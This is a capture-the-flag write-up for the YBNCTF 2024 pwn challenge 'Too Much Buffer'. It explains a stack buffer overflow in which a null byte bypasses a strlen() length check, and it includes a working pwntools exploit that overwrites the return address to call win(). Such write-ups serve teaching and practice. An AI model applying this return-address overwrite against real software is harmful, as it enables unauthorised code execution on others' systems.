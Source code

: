 ```yaml
---
title: Too Much Buffer
date: 2024-11-27
tags: 
- pwn
- author-fs
- Buffer Overflow
categories: YBNCTF 2024
---
```


by {% person fs %}

This challenge revolves a vulnerability around strlen() C and involves a buffer overflow.

```c

undefined8 main(void)

{
  int iVar1;
  undefined8 uStack_90;
  char input [104];
  size_t len;
  char *local_18;
  ulong count;
  
  uStack_90 = 0x40126f;
  ignore_me_innit_buffering();
  uStack_90 = 0x401279;
  puts(err);
  uStack_90 = 0x401283;
  puts("I eat bits with mushrooms, bits with muffins, and even bits with bits!");
  uStack_90 = 0x401299;
  scanf(%s,input);//vulnerable to buffer overflow since %s doesnt put any length restriction on input. use %[size]s to be more secure
  uStack_90 = 0x4012a5;
  len = strlen(input);//vulnerable as strlen() only counts up to null-byte
  for (count = 0; count < len; count = count + 1) {
    uStack_90 = 0x4012cb;
    iVar1 = valid_characters((int)input[count]);//checks if input has 'yesbutnoYESBUTNO'
    if (iVar1 == -1) goto LAB_00401324;
  }
  if (len < 100) {//checking if length of input exceeds 100
    local_18 = input;
    if (4 < len) {
      local_18 = input + (len - 4);
    }
    uStack_90 = 0x40131e;
    printf("Most yummy part(also the last part): %s\n",local_18);
    return 0;
  }
LAB_00401324:
  uStack_90 = 0x40132e;
  puts("ewwwwwwwwwwwwwwwwwww what\'d you put in that????");
                    /* WARNING: Subroutine does not return */
  uStack_90 = 0x401338;
  exit(0);
}

```

We also see there's a win() function that cats out flag on remote server. Given that strlen() only counts up to null byte and scanf() is vulnerable to buffer overflow and we need to contain the string 'yesbutnoYESBUTNO' inside our input, we can construct our payload as such. Payload example: (b'yesbutnoYESBUTNO'+b'\x00\x00\x00\x00')\*5 (this just gets our payload to 100 length)+b'A'*padding to rbp+b"A"\*8 (overwrite rbp) + ret gadget (stack alignment issue)+address of win()(get rip register to point to win() function address),

Hence, we can write our payload as such,

```py
from pwn import *

p=process("./buffer_monster")
#p=remote("tcp.ybn.sg", "28433")
elf=ELF("./buffer_monster")
#gdb.attach(p)

cyclic_payload=cyclic_find("haaaiaaa")#offset to rbp register
print(cyclic_payload)
payload=b"yesbutnoYESBUTNO\x00\x00\x00\x00"*5+cyclic(cyclic_payload)+b"A"*8+p64(0x0000000000401016)+p64(elf.sym['win'])
p.sendline(payload)
p.interactive()
```

We get flag.txt running this.

Make more stack pwn in finals please.

